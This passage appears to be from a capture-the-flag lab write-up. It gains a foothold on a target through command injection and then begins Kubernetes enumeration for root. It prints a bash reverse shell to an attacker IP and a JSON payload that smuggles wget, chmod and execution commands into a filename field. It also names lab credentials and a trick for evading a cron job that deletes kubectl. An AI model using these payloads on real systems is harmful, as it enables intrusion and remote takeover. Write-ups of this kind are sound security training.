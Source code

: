 ![http_log.png](http_log.png)

So we can create a `rev.sh` with a reverse shell like this:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.53/4242 0>&1
```

And execute it by sending this payload:

```
{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& wget http://10.10.14.53:1234/rev.sh & chmod +x rev.sh & /bin/bash rev.sh"}
```

## Root

After running [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) the first thing we noticed was that there is a cronjob that keeps on deleting a file named `kubectl` every minute everywhere on the system. 

So we transfer kubectl on the system but rename it to just `kube` and make it executable.
We can now use kubectl to enumerate the container:
```
./kube get namespaces    
NAME              STATUS   AGE
default           Active   221d
dev               Active   221d
kube-node-lease   Active   221d
kube-public       Active   221d
kube-system       Active   221d
```

We see that there are a couple of other namespaces.
With `./kube auth can-i --list` we can list our pivileges but we don't have any interesting privileges in the `default` namespace and neither in the `dev` namespace:
